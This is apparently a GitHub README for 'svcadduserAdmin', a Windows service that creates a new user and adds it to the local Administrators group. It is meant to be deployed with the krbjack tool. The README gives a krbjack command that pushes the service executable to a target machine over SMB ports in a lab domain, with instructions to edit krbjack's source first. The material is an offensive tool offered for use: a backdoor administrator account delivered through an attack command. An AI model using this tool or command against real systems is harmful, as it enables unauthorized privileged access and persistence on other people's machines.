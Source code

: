 # svcadduserAdmin
Simple service that creates a new user and adds it in localgroup Administrators


I used it with https://github.com/almandin/krbjack

usage:
'''
![image](https://github.com/foxlox/svcadduserAdmin/assets/28823598/ba3fb701-4446-4a6d-9dae-d3ab5cc3f7f7)
'''

edit the source file in the picture at line 57 and replace:
str(uuid etc) with 'service1'

'''
python3 -m krbjack --target-name winattacker --domain bluelab.local --dc-ip 172.27.18.19 --ports 139,445 --executable /opt/service1.exe
'''

enjoy

